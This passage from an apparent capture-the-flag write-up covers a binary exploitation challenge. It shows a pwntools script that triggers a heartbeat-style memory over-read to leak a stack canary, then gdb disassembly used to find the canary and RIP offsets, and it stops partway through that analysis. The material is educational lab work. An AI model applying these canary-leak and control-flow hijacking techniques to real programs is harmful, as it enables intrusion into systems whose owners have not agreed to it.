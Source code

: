 ```python
from pwn import *

# Binary filename
exe = './challenge.bin'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)

# Open the process
io = process(exe)

# Wait to get the waiting heart beat request message then send our text '1000:DeadBeef'
io.sendlineafter(b'Waiting for heart beat request...\n',b"1000:DeadBeef")
io.recvuntil(b'Sending heart beat response...\n')

# Getting the leaked data and the [:-35] is to remove this text '\nWaiting for heart beat request...\n' from the result
Leaked_raw = io.recvuntil(b'\nWaiting for heart beat request...\n')[:-35]

# Format the leaked date to be in the form of little endian for x64 arch this will give us list of 8 bytes for each element
Leaked_list = list(map(hex, unpack_many(Leaked_raw, 64, endian='little', sign=False)))

# Since the canary is start form byte number 856 and we have list of 8 bytes for each element so now the canary 
# Will be the element number (856/8 = 107)
Canary = int(Leaked_list[107], 16)
log.info("The Canary Value : " + hex(Canary))
```

As we can see when we run this script we got or canary

![](/assets/img/ctf/pwn/A Guilded Lily/Exploit1.png)

#### **RIP , Canary Offset**

Now we need to identify what is the correct offset to send our leaked canary and also the offset for the `RIP` to control the flow for the application. So let's get the canary correct offset 

Run the application using gdb-peda and disassemble the main function we got this 

```text
   0x0000000000401e3e <+0>:     endbr64
   0x0000000000401e42 <+4>:     push   rbp
   0x0000000000401e43 <+5>:     mov    rbp,rsp
   0x0000000000401e46 <+8>:     sub    rsp,0x420
   0x0000000000401e4d <+15>:    mov    rax,QWORD PTR fs:0x28
   0x0000000000401e56 <+24>:    mov    QWORD PTR [rbp-0x8],rax
   0x0000000000401e5a <+28>:    xor    eax,eax
   ....[Snip].......

   ....[Snip].......
   0x0000000000401edf <+161>:   mov    eax,0x0
   0x0000000000401ee4 <+166>:   mov    rcx,QWORD PTR [rbp-0x8]
   0x0000000000401ee8 <+170>:   xor    rcx,QWORD PTR fs:0x28
   0x0000000000401ef1 <+179>:   je     0x401ef8 <main+186>
   0x0000000000401ef3 <+181>:   call   0x454c60 <__stack_chk_fail_local>
   0x0000000000401ef8 <+186>:   leave
   0x0000000000401ef9 <+187>:   ret
```

